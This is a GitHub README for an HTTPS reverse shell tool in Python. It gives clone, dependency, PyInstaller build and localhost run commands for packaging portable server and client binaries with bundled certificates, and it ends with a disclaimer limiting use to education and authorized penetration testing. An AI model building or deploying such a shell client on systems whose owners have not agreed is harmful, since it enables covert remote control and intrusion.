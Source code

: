 # Python 3 HTTPS Reverse Shell

![Python Version](https://img.shields.io/badge/python-3.9+-blue?style=for-the-badge&logo=python)
[![CodeFactor Grade](https://img.shields.io/codefactor/grade/github/EONRaider/BCA-HTTPS-Reverse-Shell?label=CodeFactor&logo=codefactor&style=for-the-badge)](https://www.codefactor.io/repository/github/EONRaider/BCA-HTTPS-Reverse-Shell)
![OS](https://img.shields.io/badge/GNU%2FLinux-red?style=for-the-badge&logo=linux)
![OS](https://img.shields.io/badge/Windows-blue?style=for-the-badge&logo=windows)

[![Reddit](https://img.shields.io/badge/Reddit-EONRaider-FF4500?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Discord](https://img.shields.io/badge/Discord-EONRaider-7289DA?style=flat-square&logo=discord)](https://discord.gg/KVjWBptv)
[![Twitter](https://img.shields.io/badge/Twitter-eon__raider-38A1F3?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

A **cross-platform HTTPS Reverse Shell** server and client in Python 3. Binaries for
Linux and Windows platforms can be built through an embedded script that implements
PyInstaller.

This application also includes a helper shell script that enables fast generation of
self-signed certificates for use of both servers and clients. After generation, the
server and certificate authority certificates required for encrypted connections 
are bundled in the binaries for portability and ease of execution.

## Try it out!
If you just need to see the tool in action on a local environment, simply head over 
to the [demo-files](https://github.com/EONRaider/BCA-HTTPS-Reverse-Shell/tree/master/demo-files) 
directory and download the pre-built Linux/Unix/macOS or Windows binaries.

The files are all bundled with certificates for `localhost` and work straight out-of-the-box. *Just
set them with permissions to execute and run.*

## Build
Encrypted communication through HTTPS requires at least two certificates: One for 
the server, named `server.pem` by default, and another for the certificate authority, or `ca.pem`. 
This HTTPS Reverse Shell bundles both files in binaries for fast deployment. They can be 
generated by [multiple methods](https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs) 
or by a simple execution of the [generate_certs.sh](https://github.com/EONRaider/BCA-HTTPS-Reverse-Shell/blob/master/src/generate_certs.sh) helper script.

Once the certificates are ready you only need to (I) install the dependencies and (II) 
run `build.py` to  build the `server` and `client` binaries.

### I. Install Dependencies
Dependency management works with both [Poetry](https://python-poetry.org/) (recommended)
and [Virtualenv](https://virtualenv.pypa.io/en/latest/)
```shell
git clone https://github.com/EONRaider/BCA-HTTPS-Reverse-Shell.git
cd BCA-HTTPS-Reverse-Shell
poetry install <--or--> pip install -r requirements.txt
```

### II. Build Server and Client binaries
The `build.py` file takes care of it all.
```shell
python build.py server --server-cert /path/to/server.pem
python build.py client --ca-cert /path/to/ca.pem
```

## Usage
![usage](https://github.com/EONRaider/static/blob/97b0e81aee6eb0f2b255a26cd138299e2361d025/https-reverse-shell/usage.gif)

## Development mode (optional)
You could optionally run the HTTPS Reverse Shell directly from a local Python 3 
interpreter. [Install all dependencies](https://github.com/EONRaider/BCA-HTTPS-Reverse-Shell/tree/master#i-install-dependencies) 
and run the `server.py` and `client.py` files. All required certificates will be 
automatically generated for `localhost`.

Execute the **Server** on one shell...
```shell
python src/server/server.py localhost 4443
```

... And the **Client** on another shell:
```shell
python src/client/client.py \
--host localhost \
--port 4443 \
--ca-cert src/server/ca.pem
```

## Legal Disclaimer

The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end user's responsibility to obey all applicable local, state and
federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity, and/or availability of
systems and their associated resources. In this context the term "compromise" is
henceforth understood as the leverage of exploitation of known or unknown vulnerabilities
present in said systems, including, but not limited to, the implementation of
security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
